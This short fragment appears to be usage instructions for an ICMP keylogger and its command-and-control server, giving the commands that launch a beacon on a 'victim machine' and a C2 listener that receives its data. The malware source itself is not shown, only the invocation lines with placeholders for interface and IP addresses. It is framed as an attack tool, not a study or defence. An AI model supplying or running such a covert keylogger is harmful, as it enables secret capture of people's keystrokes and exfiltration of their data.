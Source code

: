 Command to Run the Beacon:
bash
Copy code
python3 icmp_keylogger_beacon.py -i [network_interface] -d [destination_ip]
Command to Run the C2 Server:
bash
Copy code
python3 icmp_keylogger_c2.py -i [network_interface] -d [victim_machine_ip]
Replace [victim_machine_ip] with the IP address of the victim machine in the C2 server command.
